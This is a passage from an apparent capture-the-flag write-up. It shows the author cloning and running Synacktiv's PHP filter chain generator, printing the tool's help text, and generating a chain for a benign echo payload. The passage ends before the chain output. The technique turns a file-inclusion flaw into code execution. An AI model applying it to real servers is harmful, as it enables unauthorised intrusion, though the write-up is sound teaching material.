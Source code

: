 ### Exploit

For now, I'll just use the [provided
script](https://github.com/synacktiv/php_filter_chain_generator) (I am
interested in doing a more in-depth explanation of how this works - let
me know if you're interested).

I'll clone the repo, and run the script:



    oxdf@hacky$ python php_filter_chain_generator.py -h                                                                                                          usage: php_filter_chain_generator.py [-h] [--chain CHAIN] [--rawbase64 RAWBASE64]

    PHP filter chain generator.

    options:
    -h, --help            show this help message and exit
    --chain CHAIN         Content you want to generate. (you will maybe need to pad with spaces for your payload to work)
    --rawbase64 RAWBASE64   The base64 value you want to test, the chain will be printed as base64 by PHP, useful to debug.



It takes a "chain", which is the content I want to be a part of the
page. I'll have it add some PHP that will echo a message. It generates
this long output:



    oxdf@hacky$ python php_filter_chain_generator.py --chain '<?php echo "0xdf was here"; ?>'
    [+] The following gadget chain will generate the following code : <?php echo "0xdf was here"; ?> (base64 value: PD9waHAgZWNobyAiMHhkZiB3YXMgaGVyZSI7ID8+)